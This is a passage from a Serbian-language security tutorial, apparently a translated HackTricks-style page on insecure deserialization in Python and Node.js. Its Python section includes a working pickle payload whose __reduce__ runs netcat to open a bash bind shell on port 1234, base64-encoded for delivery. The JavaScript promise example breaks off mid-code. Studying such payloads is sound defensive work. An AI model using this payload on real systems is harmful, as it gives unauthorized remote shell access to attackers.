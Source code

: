 ```python
import pickle, os, base64
class P(object):
def __reduce__(self):
return (os.system,("netcat -c '/bin/bash -i' -l -p 1234 ",))
print(base64.b64encode(pickle.dumps(P())))
```

Za više informacija o bekstvu iz **pickle zatvora** pogledajte:

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

### Yaml **&** jsonpickle

Na sledećoj stranici je prikazana tehnika **zloupotrebe nesigurne deserijalizacije u yaml Python bibliotekama** i završava se alatom koji se može koristiti za generisanje RCE deserijalizacijskog payloada za **Pickle, PyYAML, jsonpickle i ruamel.yaml**:

{% content-ref url="python-yaml-deserialization.md" %}
[python-yaml-deserialization.md](python-yaml-deserialization.md)
{% endcontent-ref %}

### Zagađenje klase (Python prototip zagađenje)

{% content-ref url="../../generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution.md" %}
[class-pollution-pythons-prototype-pollution.md](../../generic-methodologies-and-resources/python/class-pollution-pythons-prototype-pollution.md)
{% endcontent-ref %}

## NodeJS

### JS Magične funkcije

JS **nema "magične" funkcije** poput PHP-a ili Pythona koje će se izvršiti samo za kreiranje objekta. Ali ima neke **funkcije** koje se **često koriste čak i bez direktnog pozivanja** kao što su **`toString`**, **`valueOf`**, **`toJSON`**.\
Ako zloupotrebite deserijalizaciju, možete **ugroziti ove funkcije da izvršavaju drugi kod** (potencijalno zloupotrebljavajući zagađenje prototipa) i možete izvršiti proizvoljni kod kada se one pozovu.

Još jedan **"magičan" način pozivanja funkcije** bez direktnog pozivanja je **ugrožavanje objekta koji se vraća asinhronom funkcijom** (promise). Jer, ako **transformišete** taj **vraćeni objekat** u drugi **promise** sa **svojstvom** nazvanim **"then" tipa funkcija**, on će biti **izvršen** samo zato što je vraćen od drugog promise-a. _Pratite_ [_**ovaj link**_](https://blog.huli.tw/2022/07/11/en/googlectf-2022-horkos-writeup/) _za više informacija._

```javascript
// If you can compromise p (returned object) to be a promise
// it will be executed just because it's the return object of an async function:
async function test_resolve() {
const p = new Promise(resolve => {
console.log('hello')
resolve()
})
return p
}

async function test_then() {
const p = new Promise(then => {
console.log('hello')
return 1
})
```
